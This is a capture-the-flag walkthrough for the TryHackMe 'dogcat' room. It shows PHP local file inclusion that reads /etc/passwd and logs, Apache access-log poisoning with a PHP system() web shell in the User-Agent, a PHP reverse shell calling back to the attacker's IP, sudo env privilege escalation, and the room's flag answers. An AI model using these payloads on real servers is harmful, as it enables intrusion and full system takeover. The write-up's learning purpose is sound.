

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

We begin with the usual port scan:
```shell-session
$ rustscan -b 4500 -a TARGET_IP --ulimit 5000 -t 2000 -r 1-65535 -- -sC -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3
```

Huh... Only the ssh port is open. How about we just try and visit the IP on a browser?


Yep! We have a homepage alright. Cool! How about some directory enumeration?
```shell-session
$ gobuster dir -u http://10.10.47.172/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_enum.txt -t 32 
/cats                 (Status: 301) [Size: 311] [--> http://10.10.47.172/cats/]
/dogs                 (Status: 301) [Size: 311] [--> http://10.10.47.172/dogs/]
...
```

Nothing interesting so far. Let's just try and request an image, maybe we'll see something in the request sent...


Ah, here we go, when we request an image of a dog (I'm a cat person btw), the request uses the `view` key in the query-string to specify the animal. Also, here's a reference if you don't know the structure of a URL:

> Don't worry, I had to consult it, it's alright :)

Let's try to play around with this query a bit... 

Request: `http://10.10.47.172/?view=\`alert(0)\``
Result: 


Nothing. Maybe it tries to search for the string `dog` or `cat` in the query string?
Request: `http://10.10.47.172/?view=\`cat && alert(0)\`` OR `http://10.10.47.172/?view=\`cat%20&&%20alert(0)\``
Result:


Ah, there it is! The second line shows us the juicy bit:
```shell-warning
Warning: include(): Failed opening '`cat .php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

***NOTE***: Now, for the sake of exploration and true learning, I will NOT search hacktricks or other people's works, but rather refer to the PHP documentation to decipher whether or not this `include_path` can be used to our advantage ;)

Let's see what the `include` function is all about and whether we can exploit it's behaviour:

```
The include expression includes and evaluates the specified file. 
...
If a path is defined — whether absolute (starting with a drive letter or \ on Windows, or / on Unix/Linux systems) or relative to the current directory (starting with . or ..) — the include_path will be ignored altogether. For example, if a filename begins with ../, the parser will look in the parent directory to find the requested file.
```

Cool! So to put it simply, the `include` function -- as the name suggests -- includes and _evaluates_ a specific file. And the `include_path` specifies where exactly the `include` fucntion should look to find a specified file.
So in theory, if `include_path` (as seen by the response the request we sent earlier) is `/usr/local/lib/php` then we can request for something like `../../../../etc/os-release` and get the contents of target's `/etc/os-release`. Let's see if it works:
Here's the payload query string I came up with: `http://10.10.47.172/?view=./../../../../etc/os-release%00cat`

The response remains the same though:
```shell-warning
Warning: include(): Failed opening './../../../../etc/os-release' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

Let's revisit the documentation. On the section for the `include` function, there's a section that states:
```
If "URL include wrappers" are enabled in PHP, you can specify the file to be included using a URL (via HTTP or other supported wrapper - see Supported Protocols and Wrappers for a list of protocols) instead of a local pathname.
```

Following the `Supported Protocols and Wrappers` reference, we're taken to:


Feel free to explore each of these wrapper docs :D 
There's a very interesting bit in the `php://` wrapper section that states:


Interesting... So this _may_ allow us to read files? Let's try it out:
Request: `http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat`
Result: ` Here you go!PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K`

Hmmm..... Let's decode this:
```shell-session
$ echo PGltZyBzcmM9ImNhdHMvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K | base64 -d
.jpg" />
```

Let's play around with this a bit more...
Request: `http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat../../index`
Result: `Here you go!PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==`

```shell-session
$ echo PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJleHQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWluc1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICRleHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg== | base64 -d
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	   $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Okay! So we have some working code stuff. Analyzing the snippet, there's a very interesting looking `$ext` thingy that seems like it concatenates whatever is included (?)
What if we try to change it in the `php` wrapper?
Request: `http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat/../../../../etc/os-release&ext=`
Result: ` Here you go!UFJFVFRZX05BTUU9IkRlYmlhbiBHTlUvTGludXggMTAgKGJ1c3RlcikiCk5BTUU9IkRlYmlhbiBHTlUvTGludXgiClZFUlNJT05fSUQ9IjEwIgpWRVJTSU9OPSIxMCAoYnVzdGVyKSIKVkVSU0lPTl9DT0RFTkFNRT1idXN0ZXIKSUQ9ZGViaWFuCkhPTUVfVVJMPSJodHRwczovL3d3dy5kZWJpYW4ub3JnLyIKU1VQUE9SVF9VUkw9Imh0dHBzOi8vd3d3LmRlYmlhbi5vcmcvc3VwcG9ydCIKQlVHX1JFUE9SVF9VUkw9Imh0dHBzOi8vYnVncy5kZWJpYW4ub3JnLyIK`
```shell-session
$ echo  UFJFVFRZX05BTUU9IkRlYmlhbiBHTlUvTGludXggMTAgKGJ1c3RlcikiCk5BTUU9IkRlYmlhbiBHTlUvTGludXgiClZFUlNJT05fSUQ9IjEwIgpWRVJTSU9OPSIxMCAoYnVzdGVyKSIKVkVSU0lPTl9DT0RFTkFNRT1idXN0ZXIKSUQ9ZGViaWFuCkhPTUVfVVJMPSJodHRwczovL3d3dy5kZWJpYW4ub3JnLyIKU1VQUE9SVF9VUkw9Imh0dHBzOi8vd3d3LmRlYmlhbi5vcmcvc3VwcG9ydCIKQlVHX1JFUE9SVF9VUkw9Imh0dHBzOi8vYnVncy5kZWJpYW4ub3JnLyIK | base64 -d
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

HELL YEAH!!! We have achieved LFI! Now let's try to get something like `/etc/passwd` and `/etc/shadow`:
```shell-session
$ GET "http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat/../../../../etc/passwd&ext=" 
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        Here you go!cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCl9hcHQ6eDoxMDA6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgo=    </div>
</body>

</html>

$ echo cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCl9hcHQ6eDoxMDA6NjU1MzQ6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgo= | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Since the target's running Apache (try requesting the `/cats` or `/dogs` directory), let's try and see if we can get our hands on the apache log files ( [reference](http://askubuntu.com/questions/14763/ddg#14767) ):
```shell-session
$ GET "http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat/../../../../var/log/apache2/error.log&ext="
        ...
        Here you go!QUgwMDU1ODogYXBhY2hlMjogQ291bGQgbm90IHJlbGlhYmx5IGRldGVybWluZSB0aGUgc2VydmVyJ3MgZnVsbHkgcXVhbGlmaWVkIGRvbWFpbiBuYW1lLCB1c2luZyAxNzIuMTcuMC4yLiBTZXQgdGhlICdTZXJ2ZXJOYW1lJyBkaXJlY3RpdmUgZ2xvYmFsbHkgdG8gc3VwcHJlc3MgdGhpcyBtZXNzYWdlCltGcmkgSnVsIDE0IDAwOjQ2OjU0LjQyNDA3OSAyMDIzXSBbbXBtX3ByZWZvcms6bm90aWNlXSBbcGlkIDFdIEFIMDAxNjM6IEFwYWNoZS8yLjQuMzggKERlYmlhbikgUEhQLzcuNC4zIGNvbmZpZ3VyZWQgLS0gcmVzdW1pbmcgbm9ybWFsIG9wZXJhdGlvbnMKW0ZyaSBKdWwgMTQgMDA6NDY6NTQuNDI1MjgyIDIwMjNdIFtjb3JlOm5vdGljZV0gW3BpZCAxXSBBSDAwMDk0OiBDb21tYW5kIGxpbmU6ICdhcGFjaGUyIC1EIEZPUkVHUk9VTkQnCltGcmkgSnVsIDE0IDAwOjUwOjE5Ljk0NDE4OSAyMDIzXSBbYXV0b2luZGV4OmVycm9yXSBbcGlkIDczXSBbY2xpZW50IDEwLjExLjUuMjAxOjQ4NDQwXSBBSDAxMjc2OiBDYW5ub3Qgc2VydmUgZGlyZWN0b3J5IC92YXIvd3d3L2h0bWwvY2F0cy86IE5vIG1hdGNoaW5nIERpcmVjdG9yeUluZGV4IChpbmRleC5waHAsaW5kZXguaHRtbCkgZm91bmQsIGFuZCBzZXJ2ZXItZ2VuZXJhdGVkIGRpcmVjdG9yeSBpbmRleCBmb3JiaWRkZW4gYnkgT3B0aW9ucyBkaXJlY3RpdmUK    </div>
        ...

$ echo "QUgwMDU1ODogYXBhY2hlMjogQ291bGQgbm90IHJlbGlhYmx5IGRldGVybWluZSB0aGUgc2VydmVyJ3MgZnVsbHkgcXVhbGlmaWVkIGRvbWFpbiBuYW1lLCB1c2luZyAxNzIuMTcuMC4yLiBTZXQgdGhlICdTZXJ2ZXJOYW1lJyBkaXJlY3RpdmUgZ2xvYmFsbHkgdG8gc3VwcHJlc3MgdGhpcyBtZXNzYWdlCltGcmkgSnVsIDE0IDAwOjQ2OjU0LjQyNDA3OSAyMDIzXSBbbXBtX3ByZWZvcms6bm90aWNlXSBbcGlkIDFdIEFIMDAxNjM6IEFwYWNoZS8yLjQuMzggKERlYmlhbikgUEhQLzcuNC4zIGNvbmZpZ3VyZWQgLS0gcmVzdW1pbmcgbm9ybWFsIG9wZXJhdGlvbnMKW0ZyaSBKdWwgMTQgMDA6NDY6NTQuNDI1MjgyIDIwMjNdIFtjb3JlOm5vdGljZV0gW3BpZCAxXSBBSDAwMDk0OiBDb21tYW5kIGxpbmU6ICdhcGFjaGUyIC1EIEZPUkVHUk9VTkQnCltGcmkgSnVsIDE0IDAwOjUwOjE5Ljk0NDE4OSAyMDIzXSBbYXV0b2luZGV4OmVycm9yXSBbcGlkIDczXSBbY2xpZW50IDEwLjExLjUuMjAxOjQ4NDQwXSBBSDAxMjc2OiBDYW5ub3Qgc2VydmUgZGlyZWN0b3J5IC92YXIvd3d3L2h0bWwvY2F0cy86IE5vIG1hdGNoaW5nIERpcmVjdG9yeUluZGV4IChpbmRleC5waHAsaW5kZXguaHRtbCkgZm91bmQsIGFuZCBzZXJ2ZXItZ2VuZXJhdGVkIGRpcmVjdG9yeSBpbmRleCBmb3JiaWRkZW4gYnkgT3B0aW9ucyBkaXJlY3RpdmUK" | base64 -d
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Fri Jul 14 00:46:54.424079 2023] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.38 (Debian) PHP/7.4.3 configured -- resuming normal operations
[Fri Jul 14 00:46:54.425282 2023] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
[Fri Jul 14 00:50:19.944189 2023] [autoindex:error] [pid 73] [client 10.11.5.201:48440] AH01276: Cannot serve directory /var/www/html/cats/: No matching DirectoryIndex (index.php,index.html) found, and server-generated directory index forbidden by Options directive
```

What about the access logs?
```shell-session
$ GET "http://10.10.47.172/?view=php://filter/convert.base64-encode/resource=cat/../../../../var/log/apache2/access.log&ext=" > access_res 
## Isolate the base64 string (it's BIG)
$ base64 -d accesslog
...
...
10.11.5.201 - - [14/Jul/2023:02:04:36 +0000] "GET /?view=php://filter/convert.base64-encode/resource=cat/../../../../var/log/apache2/access.log&ext= HTTP/1.1" 200 6683602 "-" "lwp-request/6.71 libwww-perl/6.71"
```

Notice the last request? It keeps track of our requests, as well as the user agent. The `lwp-request/6.71` in my case. I wonder if we could mess with that...
> Also, I discovered that we don't need to add the `php` wrapper thingy anymore if we exploit the `ext` variable behaviour; not sure why though. 

Let's fire up burpsuite/postman (I'll use burp) to see what happens when we change the user agent to something random:


Interesting. If we make the `User Agent` field into something like `random` and send 2 consecutive requests, the last entry comes out looking like:
```
10.11.5.201 - - [14/Jul/2023:02:30:26 +0000] "GET /?view=cat../../../../../var/log/apache2/access.log&ext= HTTP/1.1" 200 813 "-" "random"
```

With consecutive requests, it seems that the user agent can be anything really. 
```
/?view=cat../../../../../var/log/apache2/access.log&ext= HTTP/1.1" 200 826 "-" "hello"
127.0.0.1 - - [14/Jul/2023:02:30:54 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [14/Jul/2023:02:31:24 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [14/Jul/2023:02:31:55 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
127.0.0.1 - - [14/Jul/2023:02:32:25 +0000] "GET / HTTP/1.1" 200 615 "-" "curl/7.64.0"
```

Let's... try and make it into a `php.system()` command:
```http
GET /?view=cat/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.214.221
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_GET['cmd'])?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Response:
```
HTTP/1.1" 200 846 "-" "cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```

Okay! So it shows us that we can get a file called `flag.php`. Also we got RCE! Let's now get a reverse shell. 

I'll be using the PHP exec reverse shell payload: `php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'`
We'll need to URL encode this to: `php%20-r%20%27%24sock%3Dfsockopen%28%2210.14.20.70%22%2C9001%29%3Bshell_exec%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`
```http
GET /?view=cat/../../../../../../../var/log/apache2/access.log&ext=&cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.14.20.70%22%2C9001%29%3Bshell_exec%28%22%2Fbin%2Fsh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27 HTTP/1.1
Host: 10.10.214.221
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_GET['cmd'])?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```shell-session
$ nc -nvlp 4444  
listening on [any] 4444 ...
connect to [10.11.5.201] from (UNKNOWN) [10.10.214.221] 49646
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css

whoami
www-data

cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

> What is flag 1?
> 
> Answer: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

```shell-session
cd ..
ls

flag2_QMW7JvaY2LvK.txt
html

cat flag2*
THM{LF1_t0_RC3_aec3fb}
```

> What is flag 2?
> 
> Answer: `THM{LF1_t0_RC3_aec3fb}`

Let's work on escalating our privs!

## Privilege Escalation

Let's get a feel for what permissions we have
```shell-session
whoami
www-data

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 14ac99a70ec0 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux

sudo -l
Matching Defaults entries for www-data on 14ac99a70ec0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 14ac99a70ec0:
    (root) NOPASSWD: /usr/bin/env
```

Ok! So we can run `env` without using any password.
```shell-session
sudo /usr/bin/env /bin/bash

whoami
root

ls /root
flag3.txt

cat /root/flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

> What is flag 3?
> 
> Answer: `THM{D1ff3r3nt_3nv1ronments_874112}`

We're `root` but there's yet another flag to get...
```shell-session
cd /
ls -la
total 80
drwxr-xr-x   1 root root 4096 Jul 14 02:41 .
drwxr-xr-x   1 root root 4096 Jul 14 02:41 ..
-rwxr-xr-x   1 root root    0 Jul 14 02:41 .dockerenv
```

Ah, yes. We're contained inside a docker container. We'll need to escape that stuff, but we need to enumerate some more to see if we can use something:
```shell-session
ls -la opt
total 12
drwxr-xr-x 1 root root 4096 Jul 14 02:41 .
drwxr-xr-x 1 root root 4096 Jul 14 02:41 ..
drwxr-xr-x 2 root root 4096 Apr  8  2020 backups

file /opt/backups
/opt/backups: directory

ls -la /opt/backups/
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Jul 14 02:41 ..
